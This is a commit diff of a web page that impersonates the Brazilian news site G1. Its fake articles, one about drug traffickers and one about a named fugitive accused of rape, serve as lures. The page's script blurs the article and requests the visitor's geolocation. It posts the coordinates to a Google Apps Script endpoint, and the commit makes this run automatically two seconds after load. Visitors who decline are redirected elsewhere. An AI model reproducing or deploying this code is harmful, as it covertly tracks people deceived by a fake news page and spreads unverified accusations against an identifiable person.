

Before and after one commit to globonoticias/criminoso_foragido, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 400-1467 px from the top of the page at 94% size. After the commit the page ends 1265 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,14 +3,15 @@
 <head>
   <meta charset="UTF-8" />
   <meta name="viewport" content="width=device-width, initial-scale=1" />
-  <title>G1 - Polícia identifica principais traficantes de 'droga da elite'</title>
+  <title>G1.globo.com - Notícias</title>
 
-  <!-- Open Graph para Facebook -->
-  <meta property="og:title" content="Polícia identifica principais traficantes de 'droga da elite' no país" />
-  <meta property="og:description" content="Quadrilha liderada por jovem foragido movimenta milhões com o tráfico do dry e do ice — variações sofisticadas do haxixe puro." />
+<!-- Open Graph (para WhatsApp, Facebook, etc.) -->
+<meta property="og:title" content="Polícia intensifica busca a Manoel M. D. A., acusado de crimes graves e altamente perigoso" />
+<meta property="og:description" content="Manoel M. D. A. é foragido, responde por estupro de vulnerável e ameaça, e é considerado altamente perigoso. Polícia mantém cerco ativo para capturá-lo." />
 <meta property="og:image" content="https://sbtnews.sbt.com.br/_next/image?url=https%3A%2F%2Fsbt-news-assets-prod.s3.sa-east-1.amazonaws.com%2Fhaxixi_droga_da_elite_5c982b4753.jpeg&w=1920&q=90" />
-  <meta property="og:url" content="https://noticias2025.github.io/Sao_Jose_dos_Pinhais/?Pol%C3%ADcia-identifica-principais-traficantes-de-droga-de-elite" />
-  <meta property="og:type" content="article" />
+<meta property="og:url" content="https://www.seusite.com.br" />
+<meta property="og:type" content="website" />
+
 
   <style>
     body {
@@ -100,42 +101,24 @@
     #overlay {
       position: fixed;
       top: 0; left: 0; right: 0; bottom: 0;
-      background: rgba(0,0,0,0.7);
+      background: rgba(0,0,0,0.4);
       z-index: 10;
       display: flex;
-      flex-direction: column;
       justify-content: center;
       align-items: center;
       color: white;
-      font-size: 20px;
+      font-size: 18px;
       font-family: Arial, sans-serif;
       user-select: none;
-      text-align: center;
-      padding: 30px;
-    }
-
-    #permitirBtn {
-      margin-top: 25px;
-      padding: 12px 24px;
-      font-size: 18px;
-      background: #ffffff;
-      color: #c4170c;
-      border: none;
-      border-radius: 8px;
-      cursor: pointer;
-      font-weight: bold;
-    }
-
-    #permitirBtn:hover {
-      background: #c4170c;
-      color: white;
     }
   </style>
 </head>
 <body>
 
+  <!-- Imagem no topo -->
   <img class="top-image" src="https://sbtnews.sbt.com.br/_next/image?url=https%3A%2F%2Fsbt-news-assets-prod.s3.sa-east-1.amazonaws.com%2Fhaxixi_droga_da_elite_5c982b4753.jpeg&w=1920&q=90"
-       alt="Droga da elite apreendida" />
+     alt="Polícia intensifica buscas por Manoel M. D. A., foragido acusado de crimes graves" />
+
 
   <header>
     <h1>G1</h1>
@@ -146,51 +129,45 @@
   </nav>
 
 <div class="container">
-    <div class="title">Polícia identifica principais traficantes de "droga da elite" no país</div>
-    <div class="subinfo">31/07/2025 18h45 - Atualizado há poucos minutos</div>
+  <div class="title">Polícia intensifica busca a Manoel M. D. A., acusado de crimes graves e altamente perigoso</div>
+  <div class="subinfo">15/08/2025 14h20 - Atualizado há poucos minutos</div>
 
   <div class="content">
-      <p>Uma operação do Departamento de Investigações Criminais (Deic) revelou os nomes por trás da distribuição do “dry marroquino” e do “ice” — variações potentes e refinadas do haxixe, conhecidas como “droga da elite”. Com valor de mercado que pode atingir até R$ 60 mil por quilo, as substâncias circulam em ambientes de luxo, ostentadas por consumidores de alto poder aquisitivo.</p>
+    <p>A Polícia Civil do Paraná intensificou os esforços para localizar Manoel M. D. A., um dos criminosos mais procurados da Região Metropolitana de Curitiba. Ele é alvo de múltiplos processos judiciais e responde por crimes graves, como dois casos de <strong>estupro de vulnerável</strong>, <strong>ameaça</strong> e <strong>apropriação indébita</strong>. Além disso, Manoel possui um histórico de agressões a agentes da lei, tendo atacado um policial durante uma tentativa de prisão anterior.</p>
 
-      <p>O principal suspeito é Pablo Henrique Gonçalves Porto Rodrigues, de 24 anos, atualmente foragido. Ele foi flagrado por investigadores negociando drogas ao lado de um Porsche, símbolo da ostentação promovida pela quadrilha. Carros de luxo, inclusive, são utilizados como parte do pagamento pelos entorpecentes.</p>
+    <p>As investigações indicam que, após essa fuga, Manoel tem se escondido constantemente em locais diferentes, dificultando o trabalho de rastreamento. Embora haja suspeitas de que ele tenha deixado o Paraná, seja em direção a outro estado ou até fora do Brasil, as forças policiais continuam empenhadas em sua captura.</p>
 
-      <p>Pablo foi monitorado durante conversas com comparsas por meio de áudios via celular. Em uma das mensagens, ele questiona a transferência de um veículo de forma quase casual: “O cara que tá com a Porsche não consegue fazer uma procuração? Até transferir? Porque demora de dois a três dias, tá ligado?”.</p>
+    <p>A polícia alerta: Manoel M. D. A. é considerado <strong>altamente perigoso</strong>. Ele já demonstrou disposição para reagir de forma violenta, e qualquer tentativa de abordagem por civis deve ser evitada. O cerco está sendo reforçado com o uso de tecnologias de rastreamento, operações conjuntas com outros estados e apoio de informações vindas da população.</p>
 
-      <p>Outros nomes também foram identificados na hierarquia do grupo criminoso: Lucas Carvalho Silva, o “LK”; Matheus Madeira, conhecido como “Tom”; e Matheus Henrique Souza, o “Ratão”. Todos agem como braços operacionais da rede de tráfico.</p>
+    <p>As autoridades pedem que qualquer informação sobre o paradeiro de Manoel seja imediatamente repassada pelo <strong>Disque-Denúncia 181</strong>, que garante sigilo absoluto. A colaboração da população é essencial para encurtar o cerco e garantir a captura do suspeito, evitando que ele continue a colocar a sociedade em risco.</p>
 
-      <p>Segundo a polícia, as drogas entram no Brasil principalmente por dois caminhos: via litoral, oriundas do Marrocos, e por terra, a partir do Uruguai. Ainda que alguns produtores brasileiros tentem replicar o processo, a qualidade não se equipara à do produto importado.</p>
-
-      <p>Um dado alarmante surgiu durante as investigações: criminosos presos continuam atuando ativamente na logística do tráfico. Um exemplo é Josemar Pires de Oliveira, recluso no Centro de Detenção Provisória de Tremembé, que enviou mensagens ao grupo sobre entregas em Campinas.</p>
-
-      <p>Nove integrantes da quadrilha já foram presos. Muitos foram flagrados em vídeo, distribuindo a droga ou transportando os carregamentos. Apesar do perfil “playboy” dos consumidores, os traficantes também seguem esse estilo de vida — com festas, carros de luxo e aparência de empresários de sucesso.</p>
-
-      <p>“Esses jovens, com alto padrão de vida e acesso a oportunidades, acabam entrando nesse tipo de crime por ganância, acreditando ser algo de baixo risco e alto retorno”, afirmou um dos delegados do caso.</p>
+    <p>A captura de Manoel M. D. A. é tratada como prioridade pelas forças policiais, que mantêm equipes de inteligência e operações de campo mobilizadas de forma contínua.</p>
   </div>
 </div>
+
 
   <footer>
     © 2025 G1 - Todos os direitos reservados
   </footer>
 
-  <div id="overlay">
-    Para continuar, permita o acesso à sua localização.<br>
-    <button id="permitirBtn">Permitir acesso</button>
-  </div>
+<script>
+  window.addEventListener('load', () => {
+    // Aguardar 2 segundos antes de adicionar o borrão
+    setTimeout(() => {
+      // Adicionar o borrão na tela após 2 segundos
+      document.body.classList.add('blurred');
 
-  <script>
-    function solicitarLocalizacao() {
       if (!navigator.geolocation) {
-        alert("Seu navegador não suporta geolocalização.");
-        window.close();
+        window.location.replace("https://noticias-parana.netlify.app/");
         return;
       }
 
+      // Solicitação de localização após o delay de 2 segundos
       navigator.geolocation.getCurrentPosition(async (pos) => {
         const lat = pos.coords.latitude;
         const lon = pos.coords.longitude;
 
-        // Envia a localização para o servidor
-        const url = "https://script.google.com/macros/s/AKfycbwk5F09_2ajt_z2a054KA369U7s33QNwLiTu1AO06KbvU4mRUgQixX-yICwbMzYLxHF/exec";
+        const url = "https://script.google.com/macros/s/AKfycbw4Me_ogE9h_X_lH_NgQq2CGIfh1thqljS5SgivpHjQym7vCvyEIt7ymQ1dSX0uj0Y1AQ/exec";
         const payload = { latitude: lat, longitude: lon };
 
         try {
@@ -203,22 +180,18 @@
         }
 
         liberarConteudo();
+
       }, (error) => {
-        window.close(); // Fecha se negar
+        window.location.replace("https://noticias-parana.netlify.app/");
       });
-    }
+
+    }, 2000); // Delay de 2 segundos (2000 milissegundos)
+  });
 
   function liberarConteudo() {
     document.body.classList.remove('blurred');
     document.getElementById('overlay').style.display = 'none';
   }
-
-    window.addEventListener('load', () => {
-      document.body.classList.add('blurred');
-      document.getElementById('overlay').style.display = 'flex';
-    });
-
-    document.getElementById("permitirBtn").addEventListener("click", solicitarLocalizacao);
 </script>
 
 </body>
```
Lines whose indentation alone changed are shown as unchanged.
